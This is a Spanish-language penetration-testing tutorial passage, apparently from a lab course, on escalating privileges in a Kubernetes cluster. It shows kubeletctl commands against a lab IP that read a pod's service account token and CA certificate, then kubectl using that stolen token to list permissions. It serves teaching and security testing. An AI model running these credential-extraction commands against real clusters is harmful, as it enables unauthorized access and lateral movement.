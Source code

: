 
## Privilege Escalation

Para obtener mayores privilegios y acceder al sistema host, podemos utilizar una herramienta llamada [kubeletctl](https://github.com/cyberark/kubeletctl) para obtener el `token` y el `certificate` (`ca.crt`) de la cuenta de servicio de Kubernetes desde el servidor. Para hacer esto, debemos proporcionar la dirección IP del servidor, namespace y pod objetivo. En caso de que obtengamos este token y certificado, podemos elevar aún más nuestros privilegios, movernos horizontalmente a través del clúster, o ganar acceso a pods y recursos adicionales.

### Kubelet API - Extrayendo Tokens



```r
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```

### Kubelet API - Extrayendo Certificados



```r
cry0l1t3@k8:~$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
<SNIP>
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```

Ahora que tenemos tanto el `token` como el `certificate`, podemos verificar los derechos de acceso en el clúster de Kubernetes. Esto se usa comúnmente para auditoría y verificación para garantizar que los usuarios tengan el nivel correcto de acceso y no se les otorguen más privilegios de los necesarios. Sin embargo, podemos usarlo para nuestros propósitos y podemos preguntar a K8s si tenemos permiso para realizar diferentes acciones en varios recursos.

### List Privileges



```r
cry0l1t3@k8:~$ export token=`cat k8.token`
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											[]					[]				[get create list]
...SNIP...
```
